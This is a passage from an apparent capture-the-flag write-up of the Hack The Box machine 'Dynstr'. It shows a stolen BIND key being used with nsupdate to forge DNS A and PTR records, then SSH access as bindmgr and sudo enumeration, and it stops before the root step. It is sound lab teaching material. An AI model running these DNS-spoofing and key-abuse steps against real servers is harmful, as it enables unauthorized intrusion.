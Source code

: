 This second line defines how the `dyna.htb` zone (or domain) is updated. The `update-policy` says that it will be granted with access to the `infra-key` file, which included in the first line. I also have permission to read it as www-data:

```

www-data@dynstr:/etc/bind$ ls -l infra.key
-rw-r--r-- 1 root bind 101 Mar 15 20:44 infra.key

```

### Update DNS

I have all the pieces I need to update the DNS at this point. I could look at the web code as an example of how to make the `nsupdate` call (I’ll dig into that in [Beyond Root](#no-ip-api)), or look at the [man page](https://linux.die.net/man/8/nsupdate). I’ll set it so that both the A record for 0xdf.infra.dyna.htb points at my IP, and that the PTR record for 8.14.10.10.in-addr.arpa points at 0xdf.infra.dyna.htb (to satisfy the reverse lookup of the IP):

```

www-data@dynstr:/etc/bind$ nsupdate -k infra.key 
> server 127.0.0.1
> zone dyna.htb
> update add 0xdf.infra.dyna.htb 30 IN A 10.10.14.8
> send
> zone 10.in-addr.arpa
> update add 8.14.10.10.in-addr.arpa 30 IN PTR 0xdf.infra.dyna.htb
> send

```

### SSH

With those records set, I can SSH as bindmgr:

```

oxdf@parrot$ ssh -i ~/keys/dynstr-bindmgr bindmgr@10.10.10.244
Last login: Sun Jun 13 12:13:42 2021 from 90e30693769f4068a9ffb5a187745264.infra.dyna.htb
bindmgr@dynstr:~$ 

```

## Shell as root

### Enumeration

`sudo -l` gives something interesting right away:

```

bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh

```
